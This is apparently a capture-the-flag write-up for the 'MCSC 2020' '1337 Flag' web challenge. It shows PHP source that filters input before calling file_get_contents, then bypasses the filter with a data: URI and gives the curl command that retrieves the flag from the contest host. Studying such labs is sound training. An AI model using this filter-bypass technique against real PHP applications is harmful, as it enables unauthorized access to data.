 ## MCSC 2020
### 1337 Flag (Web)

![1337 Flag](./img/ss1.png)

Let's check out that page

```php
<?php

require_once('flag.php');
error_reporting(0);

if(!isset($_POST['msg'])){
    highlight_file(__FILE__);
    die();
}

$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}

echo $flag;

```
It shows its source code
But we can see here
```php
$msg = $_POST['msg'];
$msg = str_replace( array( "php","/" ), "", $msg );
if(@file_get_contents($msg)!=="133720"){
    die();
}
```
we can see POST parameter ```$msg```
But, ```php``` and ```/``` in msg will be removed. So, we can't exploit with ```Remote File```.

But ```Data wrapper``` will work
```php
data:,133720
```
So, let's exploit it
[Here I use command ```curl```]
```shell
curl -d 'msg=data:,133720' -X POST http://103.89.49.14/a38e83e34ef85b1ed944e40c2a5eb481/index.php
```
Outputs
> MCSC{PHP_With_Data_UrI_LeaRning}

Bingo!!!

*Author ( 99f13x3r )*